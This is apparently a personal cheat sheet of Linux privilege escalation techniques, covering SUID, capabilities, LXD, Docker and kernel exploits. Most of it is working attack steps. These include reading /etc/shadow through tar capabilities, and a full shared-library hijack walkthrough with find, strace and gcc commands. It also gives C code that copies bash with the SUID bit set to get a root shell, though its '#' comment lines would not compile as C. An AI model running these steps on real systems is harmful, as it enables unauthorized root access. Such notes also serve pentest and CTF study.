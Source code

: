 9. Environment variables (skipped)
- https://macrosec.tech/index.php/2021/06/08/linux-privilege-escalation-techniques-using-suid/
- 

10. Binary Symlinks (skipped)
- https://macrosec.tech/index.php/2021/06/08/linux-privilege-escalation-techniques-using-suid/
- run linux exploit suggester
- condition 1: nginxed-root.sh[CVE-2016-1247], affecting nginx < v1.6.2
- condition 2: suid bit set for sudo

11. using capabilities
- Detection: `getcap -r / 2>/dev/nu`. If /usr/bin/python2.6 = cap_setuid+ep  
- Exploitation: got GTFObins -> search under 'capabilities'
- if we have capabilties to run tar, we can zip /etc/shadow and then unzip, in order to read the unzipped /etc/shadow with permission, where we can break thepassword hash and gain privilege as root.

12. LXD (skipped)
- https://www.hackingarticles.in/lxd-privilege-escalation/ 

13. Docker (skipped)
- https://www.hackingarticles.in/docker-privilege-escalation/

14. create malicious .so file and place it in the location the program expects it to be (https://macrosec.tech/index.php/2021/06/08/linux-privilege-escalation-techniques-using-suid/)
- First, find .so with SUID using `find / -type f -perm -04000 -ls 2>/dev/null`
- Next, attempt to execute the .so file e.g. $/usr/local/bin/suid-so, to see what happens
- To see what is running at the back scene after executing the .so, we use strace `strace /usr/local/bin/suid-so 2>&1`
- Hunt for .so file (usually at /home), that is returned as "no such file or directory", using `strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"`
- once we identified that /home/user/.config/libcalc.so, is not found, we can create our own libcalc.so using the below libcalc.c and compile using 'gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/libcalc.c'
- run $/usr/local/bin/suid-so, we should get root
- https://rootrecipe.medium.com/suid-binaries-27c724ef753c
```c
#include <stdio.h>
#include <stdlib.h>
# GCC attribute which will be run when a shared library is loaded.
static void inject() __attribute__((constructor));
void inject() {
# copies over /bin/bash and adds SUID bit to get root shell
system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

```bash
gcc -shared -o /home/user/custom.so -fPIC /home/user/custom.c
```

15. Linux Kernel Exploits
- searchsploit ubuntu 16.04 Linux kernel 4.4.0-21 -> should be a .c file that can be Local Privilege escalation
- Follow exploit instruction to compile
- https://github.com/SecWiki/linux-kernel-exploits
